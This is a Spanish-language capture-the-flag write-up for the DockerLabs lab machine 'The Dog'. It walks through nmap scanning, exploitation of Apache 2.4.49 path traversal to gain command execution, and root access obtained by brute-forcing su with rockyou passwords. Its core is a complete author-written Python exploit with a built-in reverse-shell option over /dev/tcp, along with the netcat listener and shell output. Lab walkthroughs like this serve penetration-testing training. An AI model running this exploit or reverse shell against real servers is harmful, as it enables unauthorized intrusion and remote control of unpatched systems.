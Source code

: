 Máquina **The Dog** de [DockerLabs](https://dockerlabs.es)

![The Dog](images/thedog/thedog.png)

----

| Os    | Dificultad | Autor                                       | IP
| ----- | ---------- | ------------------------------------------- |------
| Linux | Medio      | [firstatack](https://firstatack.github.io/) | 172.17.0.2

-----

## Reconocimiento

Comenzamos con un escaneo de `nmap` para descubrir los puertos abiertos de la máquina:

```css
nmap -p- --open --min-rate 5000 -sS -Pn -n -vvv 172.17.0.2 -oG allPorts
```

`-p-`: Englobar el rango total de puertos (65535).
`--open`: Solo mostrar los puertos abiertos.
`--min-rate 5000`: Enviar paquetes con una velocidad no menor a 5000 paquetes por segundo.
`-sS`: Indicar el modo de escaneo stealth.
`-Pn`: Saltar host discovery.
`-n`: No aplicar resolución DNS.
`-vvv`: Verbose.
`-oG`: Exportar la salida en formato grepeable.

Una vez realizado el escaneo podemos ver que el único puerto abierto es el 80, por lo que realizaremos un escaneo mas exhaustivo sobre ese puerto:

```css
nmap -sC -sV -p80 172.17.0.2 -oN targeted
```

`-sC`: Aplicar los scripts básicos de reconocimiento (la categoría default).

`-sV`: Determinar los servicios y su correspondiente versión sobre cada puerto.

`-oN`: Exportar el escaneo en un archivo llamado "targeted" con el mismo formato por el que salió en consola.

```ruby
# Nmap 7.95 scan initiated Thu May 15 19:38:24 2025 as: nmap -sC -sV -p80 -oN targeted 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.00024s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
|_http-server-header: Apache/2.4.49 (Unix)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Comando Ping

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 15 19:38:31 2025 -- 1 IP address (1 host up) scanned in 6.79 seconds
```

------

## Intrusión

>  Como podemos ver, utiliza apache en una versión desactualizada, por lo que si ejecutamos `searchsploit apache 2.4.49`, podemos ver un exploit que nos permite realizar un path traversal o ejecutar comandos remotamente. 

Ahora podemos ejecutar `searchsploit -m multiple/webapps/50383.sh` y ejecutar el exploit tal y como sale en los comentarios del mismo, pero yo me armé mi propio exploit para esta vulnerabilidad el cual funciona exactamente igual pero es un poco más fácil de usar:

```python
import sys
import socket
import re
if len(sys.argv) != 2:
    print(f"\n\n[!] Escriba la dirección ip:\npython3 {sys.argv[0]} 127.0.0.1")
    sys.exit(1)
def send_request(command):
    path = '/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh'
    host = sys.argv[1]
    port = 80
    body = f"echo Content-Type: text/plain; echo; {command}"
    content_length = len(body)
    request = (
        f"POST {path} HTTP/1.1\r\n"
        f"Host: {host}\r\n"
        f"User-Agent: request\r\n"
        f"Accept: */*\r\n"
        f"Content-Length: {content_length}\r\n"
        f"Content-Type: application/x-www-form-urlencoded\r\n"
        f"Connection: close\r\n"
        f"\r\n"
        f"{body}"
    )
    with socket.create_connection((host, port)) as s:
        s.sendall(request.encode())
        response = b""
        while True:
            chunk = s.recv(4096)
            if not chunk:
                break
            response += chunk
    final = response.decode(errors="ignore")
    output = re.search(r'text/plain\s*\r?\n\r?\n(.*)', final, re.DOTALL)
    print(output.group(1))
while True:
    try:
        command = input("Escriba el comando a ejecutar o shell para enviar una reverse shell: ")
        if command == "shell":
            port = int(input("Escriba el puerto donde quiere recibirla: "))
            host = input("Escriba su ip: ")
            shell = f'bash -c "bash -i >& /dev/tcp/{host}/{port} 0>&1"'
            send_request(shell)
        else:
            send_request(command)
    except KeyboardInterrupt:
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)
```

lo ejecutamos de la siguiente manera:

```css
❯ python3 exploit.py 172.17.0.2
Escriba el comando a ejecutar o shell para enviar una reverse shell: id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Escriba el comando a ejecutar o shell para enviar una reverse shell: 
```

nos ponemos en escucha por el puerto 443:

```css
nc -nlvp 443
```

y en el exploit escribimos shell, le pasamos el puerto 443 y nuestra ip y recibiremos la conexión:

```css
Escriba el comando a ejecutar o shell para enviar una reverse shell: shell
Escriba el puerto donde quiere recibirla: 443
Escriba su ip: 172.17.0.1
-----------------------------
❯ nc -nvlp 443
Listening on 0.0.0.0 443
Connection received on 172.17.0.2 53588
bash: cannot set terminal process group (9): Inappropriate ioctl for device
bash: no job control in this shell
www-data@87a74431c87c:/usr/bin$ 
```

y ya estamos dentro.

-------

## Escalada de privilegios

### www-data

Estando dentro, utilizaremos el script [multi-su_force](https://github.com/Maciferna/multi-Su_Force/blob/main/multi-su_force.sh) para realizar fuerza bruta mediante su a todos los usuarios. Para esto nos copiamos las 100 primeras líneas del rockyou y lo metemos en un archivo:

```css
## Máquina atacante
head -n 100 /opt/rockyou.txt | wl-copy # wl-copy es para hyprland, si usas kali o parrot sin entorno o con bspwm puedes usar $(xclip -sel clip)
## Máquina víctima
cd /tmp/ && nano rockyou.txt # Dentro pegamos lo que copiamos
```

luego, copiamos el script y lo creamos como "force.sh", luego simplemente lo ejecutamos:

```css
bash /tmp/force.sh /tmp/rockyou.txt
```

luego de que termine, nos deja un archivo "output.txt" el cual al leer vemos lo siguiente:

```css
[+] Se guardó el reporte en ./output.txt
www-data@87a74431c87c:/tmp$ cat output.txt 
[✓] Contraseña secret encontrada para el usuario punky
[✓] Contraseña hannah encontrada para el usuario root
www-data@87a74431c87c:/tmp$ 
```

por lo que tenemos la contraseña para todos los usuarios, pero solo nos interesa root por lo que simplemente escalamos ejecutando `su root` y poniendo su contraseña.

### Root

![Root](images/thedog/root.png)

Gracias por leer ;)

----------
